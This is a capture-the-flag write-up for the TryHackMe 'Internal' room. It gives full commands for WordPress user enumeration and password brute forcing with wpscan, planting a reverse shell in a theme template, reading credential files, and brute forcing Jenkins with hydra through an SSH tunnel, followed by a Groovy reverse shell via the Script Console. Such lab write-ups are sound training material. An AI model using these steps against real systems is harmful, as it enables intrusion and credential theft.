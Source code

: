 # Internal

[Internal](https://tryhackme.com/room/internal)

## Solution

### Initial enumeration

- nmap scan; open ports 22, 80
- feroxbuster; /blog Scanning with feroxbuster this looks like a wordpress blog.

### Wordpress

wpscan https://github.com/wpscanteam/wpscan

enumerate users with `wpscan --url  http://internal.thm/blog --enumerate u` and
we find `admin`. we can bruteforce passwords using `wpscan --url
http://internal.thm/blog -U admin -P /path/to/rockyou.txt`.

we get the username and password: `admin:my2boys`.

### Revshell

now we go to `Appearance` -> `Theme Editor` -> `404 Template` and we can change
it to a revshell https://www.revshells.com/

then we start a nc listener `nc -lvnp 6969` and navigate to
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php

now we should have a shell open as www-data

### User

Enumerate:
- search for config in `/var/www/html/wordpress`, we can `cat *.php` and search
  for password, something interesting MySQL creds `wordpress:wordpress123`,
  however we cannot find anything useful in the database.
- look into directories that we have permissions to read/write etc. one location could be `/opt`.

we can find the credentials for the user in `/opt/wp-save.txt`
`aubreanna:bubb13guM!@#123` so next we can ssh into that user.

we find the flag in `~/user.txt`.

### Root

Enumerate:
- `sudo -l`: nothing
- `find / -type f -perm -4000 2> /dev/null`: nothing interesting
- `cat ~/jenkins.txt`: `Internal Jenkins service is running on 172.17.0.2:8080`
- `crontab -l`: nothing

 we can create a ssh tunnel to redirect trafic from `localhost:8080` to the
 internal `172.17.0.2:8080` using: `ssh -L 8080:172.17.0.2:8080 aubreanna@<ip>`
 (man ssh)

we can try a random login attempt and look at the network tab the data sent to
the server looks like this:

```
j_username: admin
j_password: password
from: /
Submit: Sign in
```

this means we have to use `j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in`.
the path is also in the network. we made a POST request to `/j_acegi_security_check`.
and the error message that appears is "Invalid username or password".

this means the string will be `"/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid username or password"`

then we can try to use hydra to get inside the jenkins website.

```console
hydra -f -V -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid username or password"
```

I cannot get this thing to work tho... idk why. so I tried to instead of using
:F=... to use `:S=Dashboard`, check for success instead of failure. and we get
`spongebob`. man this took me like 2 hours.

after we login with `admin:spongebob` we can go to `Manage Jenkins` -> `Script
Console` and we can run a Groovy revshell from https://www.revshells.com/ (make
sure to have a nc listener ready).

again the credentials are stored in `/opt/note.txt` root:tr0ub13guM!@#123

then we can go to the ssh machine and `su root` with this new password. the
flag is in /root/root.txt

